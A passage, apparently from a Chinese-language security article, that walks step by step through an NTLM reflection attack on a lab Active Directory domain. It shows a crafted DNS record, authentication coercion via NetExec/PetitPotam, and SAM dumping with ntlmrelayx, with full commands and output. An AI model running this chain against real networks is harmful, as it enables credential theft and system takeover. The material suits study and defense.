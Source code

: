 我们精心构造一个特殊的 DNS 条目，欺骗 Windows 系统使其认为正在与自身通信：  
```
python3 dnstool.py -u 'shield.local\scarter' -p 'Passw0rd' \
  dc4.shield.local -a add \
  -r 'localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' \
  -d '192.168.115.178' -dns-ip 192.168.115.180
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictje3yYq52bOuEH9AtLGkYxGyq5ggDWxBMnROLAiblnicDgwqrxKWlypkk0A/640?wx_fmt=png&from=appmsg "")  
  
> 同一个局域网（广播可达）也可以直接使用 pretender  
 进行伪造  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjeAW6GrdO69awKHKgG5ujcolfqo3z3CCATHg76jb8egNpAAERKgdmtBA/640?wx_fmt=png&from=appmsg "")  
  
**4. 使用 NetExec 或 PetitPotam 强制工作站认证**  
  
我们现在使用 NetExec 或 PetitPotam  
 工具，利用我们伪造的 DNS 名称，强制目标主机发起出站 NTLM 认证：  
```
┌──(root㉿rbtsecurity)-[~]
└─# nxc smb 192.168.115.185 -u scarter -p Passw0rd -M coerce_plus -o METHOD=PetitPotam LISTENER=localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA

SMB         192.168.115.185 445    WKSTN-3          [*] Windows 10 / Server 2019 Build 19041 x64 (name:WKSTN-3) (domain:shield.local) (signing:False) (SMBv1:False)
SMB         192.168.115.185 445    WKSTN-3          [+] shield.local\scarter:Passw0rd
COERCE_PLUS 192.168.115.185 445    WKSTN-3          VULNERABLE, PetitPotam
COERCE_PLUS 192.168.115.185 445    WKSTN-3          Exploit Success, lsarpc\EfsRpcAddUsersToFile
```  
```
ounter(lineounter(lineounter(line
python3 PetitPotam.py -u scarter -p Passw0rd -d shield.local \
  localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
  wkstn-3.shield.local
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjeqZm0wjQcLrJJqOgIq2LGyicm4wsnn801ias6uLMFuSJPiarSjBsPbKZwQ/640?wx_fmt=png&from=appmsg "")  
  
**5. 在 SYSTEM 认证后提取 SAM 数据**  
  
当强制认证（Authentication）成功后，我们提取 SYSTEM 令牌并导出 SAM 数据库  
```
┌──(root㉿rbtsecurity)-[~]
└─$ impacket-ntlmrelayx -t wkstn-3.shield.local -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

```
